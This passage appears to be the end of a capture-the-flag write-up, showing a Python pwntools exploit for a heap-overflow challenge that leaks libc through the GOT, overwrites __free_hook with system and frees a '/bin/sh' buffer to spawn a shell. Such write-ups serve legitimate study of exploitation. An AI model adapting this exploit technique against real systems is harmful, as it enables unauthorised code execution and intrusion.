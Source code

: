 ```python
inp = p.readuntil("'", drop=True)
print_func = u32(inp[-4:])

# The got is at a constant offset from the print function
printf_got = print_func + 0x27ba

# write the got address into the function
# while keeping the print function's address constant
# Since node 3 is destroyed, we overflow into node 2
setQuestion(1, b'B'*28 + p32(0x21) + p32(print_func) + 5 * p32(0) + p32(printf_got))

# leak libc from the got
askQuestion(2)
printf_libc = u32(p.recvn(4))

# Calculate offsets
system_libc = printf_libc - 0x140d0
free_hook = printf_libc + 0x188600

# Taking full advantage of the overflow, leak the address of the free hook
# While I'm at it, I'll also fix the heap so I can use vis_heap_chunks again
setQuestion(1, b'C'*28 + p32(0x21) + p32(print_func) + 5 * p32(0) + p32(free_hook) + p32(0x21) + 7*p32(0) + p32(0x21))

# Write the address of system to the free_hook's address
setQuestion(2, p32(system_libc))

# Set buffer of unused node to /bin/sh
setQuestion(0, '/bin/sh\x00')

# Free the node, but actually call system with its buffer /bin/sh
delete(0)

p.interactive()
```

## Conclusion

---

All in all, this week was very challenging. Idk what the title is about but I don't remember any binary to be _'ezpz'_
